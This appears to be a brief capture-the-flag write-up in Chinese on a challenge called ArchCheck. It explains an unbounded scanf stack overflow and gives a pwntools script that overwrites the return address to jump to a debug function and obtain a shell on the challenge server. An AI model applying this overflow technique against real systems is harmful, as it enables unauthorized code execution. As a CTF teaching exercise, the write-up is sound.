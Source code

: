 接下來戲看一下 Main 中的 Function，最大的問題出在 `scanf` 並沒有寫吃入幾個 char，所以我們可以很自由的寫到 main 的 return 位置，跳到 Debug 的位置。

![](./ArchCheck/img/Screen%20Shot%202021-09-20%20at%205.41.11%20PM.png)

`scanf` 寫入的位置距離 ret 還有 `0x20 + 8` bytes 的位置，`debug` 的位置在 `0x4011DD`，有了這兩個資訊後就可以來寫 script 了。

```python
from pwn import *

context.arch = "amd64"

io = remote("up.zoolab.org", 30001)

io.recvuntil("distribution are you using?")

# Debug Position
io.sendline(b"A"*40+pack(0x4011DD))

io.recvline()

io.interactive()

io.close()
```

最後 Navigate 一下就可以找到 flag 的位置了（`/home/arch_check/flag`）
